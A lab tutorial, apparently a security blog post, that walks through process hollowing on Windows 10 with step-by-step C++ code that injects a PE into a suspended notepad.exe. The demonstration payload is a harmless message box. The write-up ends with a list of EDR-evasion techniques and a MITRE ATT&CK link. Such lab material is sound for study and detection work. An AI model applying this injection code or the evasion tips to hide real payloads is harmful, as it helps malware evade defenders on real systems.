




> A basic understanding of PE structure is required for this lab. I highly recommend reading this deep dive by 0xRick: [Source](https://0xrick.github.io/win-internals/pe1/)  
> This is tested on 64-bit Windows 10 with only Windows Defender as protection

## Introduction
Process hollowing is performed by creating a legitimate process in a suspended state, unmapping its original memory and replacing it with a malicious binary, then resuming execution to evade process-based detection. It allows attackers to execute arbitrary code within the address space of a legitimate process, masking malicious activity under a trusted executable.

## Execution
For this lab we'll use a simple message box program as our malicious code:
```c
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
    MessageBox(NULL,
               L"Hello! The process has been hollowed :)",
               L"message box",
               MB_OK | MB_ICONINFORMATION);

    return 0;
}
```

### Spawn the Target Process
The first step involves creating a process in suspended mode so execution hasn't started yet. This is done with the function `CreateProcessA` using the `CREATE_SUSPENDED` flag. The flag halt the process just after the creation, no thread will be executing

```cpp
STARTUPINFOA si;
PROCESS_INFORMATION pi;
ZeroMemory(&si, sizeof(si));
ZeroMemory(&pi, sizeof(pi));
si.cb = sizeof(si);

// Create suspended process
std::cout << "[*] Creating suspended notepad.exe process..." << std::endl;
BOOL createResult = CreateProcessA(NULL,
                                    (LPSTR)"notepad.exe",
                                    NULL,
                                    NULL,
                                    TRUE,
                                    CREATE_SUSPENDED,
                                    NULL,
                                    NULL,
                                    &si,
                                    &pi);
```

### Opening the Malicious File

```cpp
const char* file = argv[1];
std::cout << "[*] Opening malicious file " << file << " ..." << std::endl;
HANDLE maliciousFile = CreateFileA(file,
                                    GENERIC_READ,
                                    FILE_SHARE_READ,
                                    NULL,
                                    OPEN_EXISTING,
                                    FILE_ATTRIBUTE_NORMAL,
                                    NULL);
// get the handle to the process and its thread
HANDLE targetProcessHandle = pi.hProcess;
HANDLE targetThreadHandle = pi.hThread;
```
We need to read our malicious file and store the bytes in a buffer for later use:

```cpp
// get the size of the file
SIZE_T fileSize = GetFileSize(maliciousFile, NULL);
// allocate memory for it
PVOID maliciousFileBuffer = malloc(fileSize);
DWORD bytesRead;
// read bytes into the buffer
BOOL readResult = ReadFile(maliciousFile,
                            maliciousFileBuffer,
                            fileSize,
                            &bytesRead,
                            NULL);
```

### Locate ImageBaseAddress
`ImageBaseAddress` is a field inside the __Process Environment Block (PEB)__ which is a pointer to the main executable image of a process loaded in memory. This is where we carve out the original executable. It's usually at offset `0x010` on 64-bit Windows.



We can use `NtQueryInformationProcess` to get the base address of the PEB and read `ImageBaseAddress` from there, which is `0x010` bytes away.

:::important
The offset used here is architecture-specific and can change in future version of Windows
:::
```cpp
PROCESS_BASIC_INFORMATION pbi;
ULONG returnLength;

std::cout << "[*] Querying target process information..." << std::endl;
NTSTATUS ntStatus = NtQueryInformationProcess(targetProcessHandle,
                                                ProcessBasicInformation,
                                                &pbi,
                                                sizeof(pbi),
                                                &returnLength);
PVOID targetImageBaseAddr = NULL;
// get ImageBaseAddress which is PEB_base_addr + offset (here 0x010)
BOOL readMemResult = ReadProcessMemory(targetProcessHandle,
                                        (BYTE*)pbi.PebBaseAddress + 0x010,
                                        &targetImageBaseAddr,
                                        sizeof(targetImageBaseAddr),
                                        NULL);
```

### Hollow the Target Process
Now the most important part: hollowing the process. `NtUnmapViewOfSection` is the function used to unmap the memory section that starts at `ImageBaseAddress`.
```cpp
NtUnmapViewOfSection(targetProcessHandle, targetImageBaseAddr);
```
The traditional approach uses `VirtualFreeEx` to free the memory at the image base. In fact, `NtUnmapViewOfSection` is the NT kernel-level API that does what `VirtualFreeEx` does. The difference is `NtUnmapViewOfSection` doesn't just free memory—it completely unmaps the section that was created when the PE was loaded.

:::important
 NtUnmapViewOfSection itself is a major red flag (it's rare in normal code)
:::

### Allocate Memory in Target Process
Before we start writing the malicious file to the address space of the target process, we need to allocate memory with `VirtualAllocEx`. The size of the block of memory will be the size of our malicious image, which can be found inside the Optional Header from the NT Header:

  

```cpp
// get the DOS header of the malicious PE file
PIMAGE_DOS_HEADER imageDosHeader = (PIMAGE_DOS_HEADER)maliciousFileBuffer;
// the NT_HEADER, the offset to it is at imageDosHeader->e_lfanew
PIMAGE_NT_HEADERS imageNtHeaders = (PIMAGE_NT_HEADERS)((PBYTE)maliciousFileBuffer + imageDosHeader->e_lfanew);
DWORD sizeOfMaliciousImage = imageNtHeaders->OptionalHeader.SizeOfImage;
// allocate memory in the target process, starting at ImageBaseAddress, the size of our PE file (imageNtHeaders->OptionalHeader.SizeOfImage)
PVOID hollowAddr = VirtualAllocEx(targetProcessHandle,
                                    targetImageBaseAddr,
                                    sizeOfMaliciousImage,
                                    MEM_COMMIT | MEM_RESERVE,
                                    PAGE_EXECUTE_READWRITE);
```

### Write PE Headers and Sections to Target Process
Now we need to reconstruct the malicious file inside the remote process:
```cpp
// write the headers to the target process, they are back to back, OptionalHeader.SizeOfHeaders gives the size of it all
BOOL writeResult = WriteProcessMemory(targetProcessHandle,
                                        targetImageBaseAddr,
                                        maliciousFileBuffer,
                                        imageNtHeaders->OptionalHeader.SizeOfHeaders,
                                        NULL);
```
Each section lives at a certain offset in the file on disk and needs to be placed at a specific address in memory. `IMAGE_SECTION_HEADER.VirtualAddress` gives the offset where the section should reside in memory, while `IMAGE_SECTION_HEADER.PointerToRawData` gives the offset where the section is located inside the PE file.

```cpp
// Get the first section
PIMAGE_SECTION_HEADER sectionHeader = IMAGE_FIRST_SECTION(imageNtHeaders);

for (int i = 0; i < imageNtHeaders->FileHeader.NumberOfSections; i++) {
    // Calculate destination address in target process
    PVOID destAddress = (PVOID)((PBYTE)targetImageBaseAddr + sectionHeader->VirtualAddress);

    // Calculate source address in local buffer
    PVOID srcAddress = (PVOID)((PBYTE)maliciousFileBuffer + sectionHeader->PointerToRawData);

    std::cout << "  [*] Writing section " << i + 1 << "/" << imageNtHeaders->FileHeader.NumberOfSections
                << " (VirtualAddress: 0x" << std::hex << sectionHeader->VirtualAddress
                << ", Size: " << sectionHeader->SizeOfRawData << " bytes)" << std::dec << std::endl;
    // write the section at the destination address
    writeResult = WriteProcessMemory(targetProcessHandle,
                                        destAddress,
                                        srcAddress,
                                        sectionHeader->SizeOfRawData,
                                        NULL);

    if (!writeResult) {
        PrintLastError("WriteProcessMemory (section)");
        free(maliciousFileBuffer);
        CloseHandle(targetProcessHandle);
        CloseHandle(targetThreadHandle);
        return 1;
    }
    // go to the next section
    sectionHeader++;
}
```

### Set New Entry Point
After copying the sections and headers, we retrieve the entry point of the malicious PE and update the thread context to start at that address before resuming the suspended process:

```cpp
CONTEXT context;
context.ContextFlags = CONTEXT_FULL;

BOOL getContextResult = GetThreadContext(targetThreadHandle, &context);

PVOID entryPoint = (PVOID)((PBYTE)targetImageBaseAddr +
                            imageNtHeaders->OptionalHeader.AddressOfEntryPoint);

context.Rcx = (DWORD64)entryPoint;

BOOL setContextResult = SetThreadContext(targetThreadHandle, &context);

// Resume the suspended process
std::cout << "[*] Resuming process..." << std::endl;
DWORD resumeResult = ResumeThread(targetThreadHandle);
```

After resuming the suspended process, our code (here the message box program) will be executed under the skin of Notepad.




:::important
If the target base differs from the malicious image preferred base address, relative addresses will be wrong and relocations is needed. It's worth performing or the program can silently breaks. More details [here](https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#relocation)
:::

## Conclusion

We didn't execute actual malicious code (like a reverse shell), yet the binary was still flagged by Windows Defender as **Trojan:Win32/Bearfoos.A!ml**, a machine-learning based signature and quarantined within minutes of execution.



This is telling for two reasons: first, the detection happened *after* execution, meaning the hollowing itself wasn't caught at injection time but rather through behavioral analysis of the running process. Second, the `!ml` suffix indicates Defender's heuristic/ML engine flagged it, not a static hash match — the technique's behavioral fingerprint (suspicious memory allocation patterns, thread context manipulation, cross-process writes) is well-understood by modern EDRs.

Process hollowing is still used in the wild by threat actors, but never in this raw form. Effective evasion today requires layering additional techniques on top:

- **PE header stomping**: after writing, overwrite the MZ/PE magic bytes in the target process to defeat memory-scanning tools that walk loaded modules
- **Indirect syscalls**: replace `NtUnmapViewOfSection` and `NtWriteVirtualMemory` calls with direct syscall stubs to avoid userland hooks placed by EDR DLLs
- **Sleep obfuscation**: encrypt the payload in memory between execution stages to defeat memory integrity scans

See [MITRE ATT&CK T1055.012](https://attack.mitre.org/techniques/T1055/012/) for mitigations and detection strategies. The complete source code can be found [here](https://github.com/0xSolitar/Process-Hollowing).
